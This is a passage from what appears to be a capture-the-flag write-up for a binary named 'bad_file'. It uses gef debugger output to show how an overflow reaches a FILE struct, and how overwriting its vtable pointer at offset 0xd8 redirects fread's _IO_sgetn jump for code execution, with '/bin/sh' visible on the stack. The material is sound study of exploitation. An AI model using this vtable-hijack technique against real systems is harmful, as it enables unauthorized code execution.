 ```
0x602110: 0x0000000000000000  0x0000000000000000
0x602120: 0x0000000000000000  0x0000000000000000
0x602130: 0x0000000000000000  0x0000000000000000
0x602140: 0x0000000000000000  0x0000000000000000
0x602150: 0x0000000000000000  0x0000000000000000
0x602160: 0x0000000000000000  0x0000000000000000
```

Here is everything we can reach with out overflow (`0x160 / 8 = 44`). When `fread` is called, there is a function `_IO_sgetn` that is called on our input.

```
gef➤  disas _IO_sgetn
Dump of assembler code for function __GI__IO_sgetn:
   0x00007ffff7a88700 <+0>: mov    rax,QWORD PTR [rdi+0xd8]
   0x00007ffff7a88707 <+7>: mov    rax,QWORD PTR [rax+0x40]
   0x00007ffff7a8870b <+11>:  jmp    rax
End of assembler dump.
```

In this case the register `rdi` holds a pointer to the file struct. Here it dereferences `rdi+0xd8` (which in our case would be the value stored at `0x6020e8` which is `0x00007ffff7dd06e0`). Then the instruction pointer stored at that address `+0x40` is then moved into the `rax` register, and then executed via a jump (in our case `0x00007ffff7dd06e0 + 0x40 = 0x7ffff7dd0720`). We can see that the function which should be executed is `_IO_file_jumps`:

```
gef➤  x/i 0x00007ffff7dd06e0
   0x7ffff7dd06e0 <_IO_file_jumps>: add    BYTE PTR [rax],al
``` 

So we can see that we can overwrite a pointer which is dereferenced to get an instruction pointer, and then executed. We will use this to get code execution. However the pointer is at offset `0xd8`, so we have to overwrite several different pointers which could cause issues. To figure this out I just overwrote the values of pointers one by one to see if they would cause us issues. Turns out only one of them do cause issues, and it's nothing major. It's the pointer stored at offset `0xa0` (it's `0x602100` at `0x6020b0`).

```
───────────────────────────────────────────────────────────────────── stack ────
0x00007fff456d8010│+0x0000: 0x0000000000400b40  →  "Now let's send some magic to the void!!"   ← $rsp
0x00007fff456d8018│+0x0008: 0x0000000000000000
0x00007fff456d8020│+0x0010: 0x00007fff456d8090  →  0x00000000004009c0  →  <__libc_csu_init+0> push r15
0x00007fff456d8028│+0x0018: 0x0000000000400740  →  <_start+0> xor ebp, ebp
0x00007fff456d8030│+0x0020: 0x00007fff456d8170  →  0x0000000000000001
0x00007fff456d8038│+0x0028: 0x000000000040099c  →  <main+223> lea rax, [rbp-0x30]
0x00007fff456d8040│+0x0030: 0x0000000000704010  →  0x0068732f6e69622f ("/bin/sh"?)
0x00007fff456d8048│+0x0038: 0x0000000000704010  →  0x0068732f6e69622f ("/bin/sh"?)
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7fc49f4fc4b0 <fread+80>       lock   cmpxchg DWORD PTR [r8], esi
   0x7fc49f4fc4b5 <fread+85>       jne    0x7fc49f4fc4bf <fread+95>
   0x7fc49f4fc4b7 <fread+87>       jmp    0x7fc49f4fc4d5 <fread+117>
 → 0x7fc49f4fc4b9 <fread+89>       cmpxchg DWORD PTR [r8], esi
   0x7fc49f4fc4bd <fread+93>       je     0x7fc49f4fc4d5 <fread+117>
   0x7fc49f4fc4bf <fread+95>       lea    rdi, [r8]
   0x7fc49f4fc4c2 <fread+98>       sub    rsp, 0x80
   0x7fc49f4fc4c9 <fread+105>      call   0x7fc49f589c50
   0x7fc49f4fc4ce <fread+110>      add    rsp, 0x80
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "bad_file", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7fc49f4fc4b9 → fread()
[#1] 0x40099c → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  p $r8
```